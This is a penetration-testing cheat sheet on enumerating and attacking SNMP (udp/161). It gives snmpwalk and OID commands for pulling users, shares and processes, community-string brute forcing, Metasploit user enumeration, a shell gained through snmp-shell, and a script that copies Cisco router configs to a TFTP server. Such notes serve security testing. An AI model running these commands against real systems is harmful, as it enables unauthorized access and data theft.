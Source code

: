 ```yaml
---
description: udp/161
---
```


# 161 - SNMP

### Tools

```
snmpget -v 1 -c public IP version
snmpbulkwalk -v 2 -c public IP
```

```
apt-get install snmp
snmpwalk -v 1 -c public IP
snmpwalk -c public -v2c -On IP
```

```
sudo apt install snmpenum
snmpenum 10.129.137.66 public linux.txt
```

### SNMP Config

Snmp configuration file is located by default in:

`/etc/snmp/snmpd.conf`

and it includes the passwords for the community and private string



### Brute force community string

```
./onesixtyone -c /opt/SecLists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.10.92 
Scanning 1 hosts, 122 communities 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
```



### **Metasploit - Enumerate users**

```
msf5 auxiliary(scanner/snmp/snmp_enumusers) > show options  
Module options (auxiliary/scanner/snmp/snmp_enumusers): 
   Name       Current Setting  Required  Description 
   ----       ---------------  --------  ----------- 
   COMMUNITY  public           yes       SNMP Community String 
   RETRIES    1                yes       SNMP Retries 
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax '
file:<path>
' 
   RPORT      161              yes       The target port (UDP) 
   THREADS    1                yes       The number of concurrent threads (max one per host) 
   TIMEOUT    1                yes       SNMP Timeout 
   VERSION    1                yes       SNMP Version <1/2c> 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > set rhosts 192.168.0.41 
rhosts => 192.168.0.41 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > run 
[+] 192.168.0.41:161 Found 6 users: daemon, jack, noaccess, nobody, root, smmsp 
[*] Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed
```

### SNMP Shell

Using Net-SNMP functionality we can gain shell on a SNMP server

Link: [https://github.com/mxrch/snmp-shell](https://github.com/mxrch/snmp-shell)

```
root@kali# rlwrap python3 /opt/snmp-shell/shell.py 10.10.10.195 -c SuP3RPrivCom90

Debian-snmp@intense:/$ id
uid=111(Debian-snmp) gid=113(Debian-snmp) groups=113(Debian-snmp)
```

### SNMP IPv6 Enumeration&#x20;

[Enyx](broken-reference) is an enumerator tool about grabbing the possible IPV6 of a machine through the snmp protocol.



### SNMPv3&#x20;

Identify SNMPv3 servers with nmap:&#x20;

`nmap -sV -p 161 --script=snmp-info TARGET-SUBNET`&#x20;

Rory McCune’s snmpwalk wrapper script helps automate the username enumeration process for SNMPv3:&#x20;

```
apt-get install snmp snmp-mibs-downloader 
wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb
```

### &#x20;SNMP  Enumeration - Windows tool

Getif is a free multi-functional Windows GUI based Network Tool written by Philippe Simonet.  It is amongst other things, an excellent SNMP tool that allows you to collect and graph information from SNMP devices.&#x20;

Download:&#x20;

[http://www.wtcs.org/snmp4tpc/getif.htm](http://www.wtcs.org/snmp4tpc/getif.htm)&#x20;

Install and set compatability as Windows XP SP2&#x20;

Press STRAT once you put the IP and public commuinty&#x20;

Download the  SNMP4tPC Getif MIB collection as well.

![](../../.gitbook/assets/GetImage.gif)

For each tab press 'start' to get the information &#x20;

`Error: If you getting 'DllRegisterServer (msflxgrd) failed' error` – run the software as administrator &#x20;

### **Common Mibs**

**interfaces** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.2.2`&#x20;

**Windows User Accounts** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25`&#x20;

**Windows Running Programs** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2`&#x20;

**Windows Hostname** \
`snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5`&#x20;

**Windows Share Information** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1`&#x20;

**Windows Share Information** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27`&#x20;

**Windows TCP Ports** \
`snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3`&#x20;

**Software Name** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2`&#x20;

**SysLocation** \
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.1.6`

### Solaris MIBS

Enumerate users on solaris:

`use auxiliary/scanner/snmp/snmp_enumusers`

### Download Cisco Conf

Copies configuration files from Cisco devices running SNMP.&#x20;

**Usage**:&#x20;

```
root@kali:~# copy-router-config.pl 
###################################################### 
# Copy Cisco Router config  - Using SNMP 
# Hacked up by muts - muts@offensive-security.com 
####################################################### 
Usage : ./copy-copy-config.pl <router-ip> <tftp-serverip> <community> 
Make sure a TFTP server is set up, preferably running from /tmp ! 
```

**Example:**&#x20;

`root@kali:~# copy-router-config.pl 192.168.1.1 192.168.1.15 private`
